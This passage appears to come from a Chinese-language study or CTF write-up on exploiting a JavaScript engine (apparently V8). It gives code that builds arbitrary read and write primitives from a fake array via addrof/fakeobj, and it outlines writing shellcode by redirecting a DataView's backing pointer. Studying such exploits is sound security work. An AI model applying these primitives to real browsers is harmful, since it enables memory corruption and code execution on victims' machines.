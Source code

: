 ![](../images/Pasted%20image%2020250513172259.png)


### 2.6 实现任意地址写

根据上文，可以简化一下这两个函数：

```js
var arb_rw_arr1 = [flt_map, 1.2, itof(addrof(temp_obj)), 1.4];
var fake_array = fakeobj(addrof(arb_rw_arr1) - 0x20n);


function arb_read(addr) {
    arb_rw_arr1[2] = itof(addr - 0x10n);
    return ftoi(fake_array[0]);
}

function initial_arb_write(addr, val) {
    arb_rw_arr1[2] = itof(addr - 0x10n);
    fake_array[0] = itof(val);
}
```

我猜那个-1+1是因为这些地址都是+1的状态，计算的时候习惯先-1，但是存储又要+回来

BigInt好像没有什么用，就去掉了（也许有特殊情况？

然后就是shellcode写入了
理解一下dataview

大概是一个数据结构会往里面存的地址写入东西
我们直接把这个写入地址改成我们想写shellcode的地址
就可以直接用dataview的功能写入多个字符了！
